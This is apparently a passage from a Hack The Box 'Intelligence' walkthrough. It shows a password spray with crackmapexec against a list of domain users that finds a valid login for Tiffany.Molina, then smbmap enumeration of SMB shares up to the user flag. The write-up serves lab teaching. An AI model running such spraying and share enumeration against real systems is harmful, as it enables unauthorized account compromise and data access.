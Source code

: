 ```text
┌──(root💀kali)-[~/htb/intelligence]
└─# crackmapexec smb intelligence.htb -u ./users.txt -p '<HIDDEN>'
SMB    10.10.10.248    445    DC    [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB    10.10.10.248    445    DC    [-] intelligence.htb\Anita.Roberts:<HIDDEN> STATUS_LOGON_FAILURE 
SMB    10.10.10.248    445    DC    [-] intelligence.htb\Brian.Baker:<HIDDEN> STATUS_LOGON_FAILURE 
SMB    10.10.10.248    445    DC    [-] intelligence.htb\Brian.Morris:<HIDDEN> STATUS_LOGON_FAILURE 
<SNIP>
SMB    10.10.10.248    445    DC    [+] intelligence.htb\Tiffany.Molina:<HIDDEN>
```

## SMBMap

We find Tiffany has forgotten to change her password! We can use smbmap to enumerate the SMB shares:

```text
┌──(root💀kali)-[~/htb/intelligence]
└─# smbmap -u Tiffany.Molina -p <HIDDEN> -H intelligence.htb
[+] IP: intelligence.htb:445    Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        IT                                                      READ ONLY
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY
```

We have read access to Users and one called IT. Instead of walking around the shares looking manually, we can get smbmap to list everything we have access to:

```text
┌──(root💀kali)-[~/htb/intelligence]
└─# smbmap -u Tiffany.Molina -p <HIDDEN> -H intelligence.htb -R
[+] IP: intelligence.htb:445    Name: unknown
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        <SNIP>
        IT                                                      READ ONLY
        .\IT\*
        fr--r--r--             1046 Mon Apr 19 01:50:58 2021    downdetector.ps1
        <SNIP>
        Users                                                   READ ONLY
        .\Users\*
        dr--r--r--                0 Mon Apr 19 01:18:39 2021    Administrator
        dr--r--r--                0 Mon Apr 19 04:16:30 2021    All Users
        dw--w--w--                0 Mon Apr 19 03:17:40 2021    Default
        dr--r--r--                0 Mon Apr 19 04:16:30 2021    Default User
        fr--r--r--              174 Mon Apr 19 04:15:17 2021    desktop.ini
        dw--w--w--                0 Mon Apr 19 01:18:39 2021    Public
        dr--r--r--                0 Mon Apr 19 02:20:26 2021    Ted.Graves
        dr--r--r--                0 Mon Apr 19 01:51:46 2021    Tiffany.Molina
        <SNIP>
        .\Users\Tiffany.Molina\Desktop\*
        fw--w--w--               34 Thu Oct  7 12:55:49 2021    user.txt
```
